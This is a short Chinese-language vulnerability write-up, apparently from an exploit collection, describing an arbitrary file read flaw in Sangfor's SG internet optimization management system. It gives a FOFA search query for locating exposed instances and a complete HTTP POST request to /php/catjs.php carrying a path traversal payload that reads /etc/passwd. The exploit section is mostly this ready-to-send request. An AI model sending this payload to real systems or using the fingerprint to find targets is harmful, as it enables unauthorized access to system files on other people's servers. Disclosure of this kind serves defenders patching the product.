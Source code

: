 # 深信服SG上网优化管理系统catjs存在任意文件读取漏洞

# 一、漏洞简介
SANGFOR上网优化管理系统是一款集上网行为管理、网络准入、设备准入以及业务访问行为分析于一体的安全产品。核心优势：多种认证方式、全面的审计能力、支持多种应用的封堵、*的流量控制；准确识别iot设备、统一管理硬件资产；强管控违规用户，精细分析行为画像；部署实施简单，维护成本低。全网行为管理基于端点无感知、少故障节点、不影响原有网络为原则的产品设计理念，致力于给客户带来更好的使用体验。深信服SG上网优化管理系统catjs存在任意文件读取漏洞

# 二、影响版本
+ 深信服SG上网优化管理系统

# 三、资产测绘
+ fofa`title="SANGFOR上网优化管理"`
+ 特征

![1713460250581-3ce6b4ad-84c1-4a1c-83c2-a67e0d664c38.png](./img/tVIicowd7O9vW7DB/1713460250581-3ce6b4ad-84c1-4a1c-83c2-a67e0d664c38-221870.png)

# 四、漏洞复现
```plain
POST /php/catjs.php HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

["../../../../../../../etc/passwd"]
```

![1713460280458-dae40fc1-b98b-4c65-b626-c1732fdac8fa.png](./img/tVIicowd7O9vW7DB/1713460280458-dae40fc1-b98b-4c65-b626-c1732fdac8fa-365869.png)



> 更新: 2024-04-19 08:49:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zn0vntfcl2txn765>